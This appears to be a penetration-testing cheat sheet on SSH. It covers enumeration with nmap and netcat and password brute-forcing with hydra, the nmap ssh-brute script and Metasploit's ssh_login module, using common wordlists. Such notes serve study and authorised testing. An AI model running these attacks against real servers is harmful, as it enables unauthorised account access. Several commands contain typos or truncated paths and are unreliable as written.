 # iii - SSH - 22

`nmap $ip -p22 -sV -O` - service version scan for ssh.

`nc  $ip 22` - for SSH banner grabbing.

`nmap $ip -p22 --script ssh2-enum-algos` - enumerating all the supported algorithms.

`nmap $ip -p22 --script ssh2-hostkey --scrip-args ssh_hostkey=full` - enumerating the victim's full SSH rsa host key.

\``nmap $ip -p22 --script ssh-auth-methods --script-args="ssh.user=admin"` - enumerating all the supported authentication methods.

## SSH Dictionary  Attacks using \[hydra]

You could run hydra with a users wordlists and specify empty passwords, to see if there are any user with no password.

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -p "" $ip ssh` - bruteforcing for users without password.

You can run the normal attack with users and passwords wordlists too.

\`hydra -L /usr/share/`metasploit-framework/data/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt $ip ssh` - specified users and password wordlists.

#### nmap nselib wordlist

`/usr/share/nmap/nselib/data/passwords.lst` .

## Bruteforce with \[nmap] utility

{% code overflow="wrap" %}
```bash
# you might want to check for specific users like: "root", "admin" or "administrator"
# so you can save them to a file as "user" wordlist file.
echo "administrator" > user
# "/root" is the path the "user" file is stored
nmap 4ip -p22 --script ssh-brute --script-args userdb=/root/user,passdb=/usr/share.... $ip
```
{% endcode %}

## Bruteforce with \[msfconsole] Metasploit

```bash
use auxiliary/ssh/ssh_login
show options
set RHOSTS $ip
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
options   # verify options are specified correctly.
run
```







